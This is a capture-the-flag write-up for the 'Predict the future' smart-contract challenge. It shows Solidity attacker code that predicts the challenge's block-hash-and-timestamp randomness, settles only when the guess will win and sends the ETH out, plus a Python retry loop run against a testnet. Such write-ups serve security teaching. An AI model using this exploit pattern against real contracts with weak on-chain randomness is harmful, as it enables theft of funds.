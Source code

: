 # Predict the future

## Objectives

> This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.

> Note that it is indeed possible to solve this challenge without losing any ether.

## Solution

We have to follow a few steps here:

1. Code and deploy a contract with at least 3 functions:
    + One that locks in the guess (calling `lockInGuess()`)
    + One that calls `settle()` but *only* if it *knows* the guess will work
    + One fallback function to receive ETH

2. The function that calls `settle()` is specially important, it has to generate the answer just like the PredictTheFutureChallenge contract, but it should only attempt to do this settle if the answer is equal to the guess made when we call `lockInGuess()`. I defined it as follows:

```js
function callSettle() public {
    // prevent the tx from continuing if the answer is not going to pass as correct
    uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)))) % 10;
    require(answer == 0, "tx will fail and guesser will be overwritten");

    // make the guess and check if the challenge is complete, otherwise revert
    challenge.settle();
    require(challenge.isComplete(), "challenge not complete yet");
    

    // send funds to my address
    (bool success,) = msg.sender.call{value:address(this).balance}("");
    require(success, "call failed");
}
```

3. Iteratively call this `callSettle()` function until the guess goes through. I did it as follows:

```python
# call settle until it works, because `guess` is already 0
while True:
    # check if the challenge is completed
    result = predict_the_future.isComplete()
    print(f'The challenge is complete: {result}')
    if result:
        break
    
    # call settle
    try:
        attacker.callSettle(_from | {'allow_revert':True})
    except:
        pass

    # check if the guesser has been overwritten
    guesser = web3.eth.get_storage_at(predict_the_future.address, '0x').hex()
    print(f'The guesser is: {guesser}')
    if attacker.address[-40:].upper() != guesser[-40:].upper():
        print('guesser has been overwritten')
        break
```

Here I call the function until either the challenge is complete, or if the guesser changes to the null address. I had this last check because if I were to generate a different guess than what I coded in the attacker contract and the `settle()` function was successfully called, then we would have to call `lockInGuess()` again to make `guesser = msg.sender` and not the null address. This scenario, however, is probably not possible.

Eventually, after a few tries, the attempt will go through if it passes. This can still be done if the set of possible answers is larger than just 10, but it would probably take much longer (unless we get lucky).

## Submission transaction

https://ropsten.etherscan.io/tx/0xb065fda4383b65408dd6f021f12071a44b4d44d24106fd5be006287f2fee4d05
